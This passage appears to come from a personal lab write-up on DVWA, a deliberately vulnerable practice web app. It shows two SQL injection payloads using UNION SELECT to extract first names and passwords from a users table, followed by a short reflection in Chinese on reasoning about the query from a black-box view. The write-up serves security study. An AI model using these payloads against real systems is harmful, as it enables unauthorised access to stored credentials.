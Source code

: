 ### ✨Done✨

```bash
1' UNION SELECT first_name,password FROM users WHERE user_id<>'0
```

```bash
1' UNION SELECT first_name,password FROM users WHERE user_id <>'
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2073.png)

### 心得

隨然 wiki 上有標準答案，盡量試著從黑箱角度去推斷原本的 SQL 可能是怎樣寫的，強化理解

---
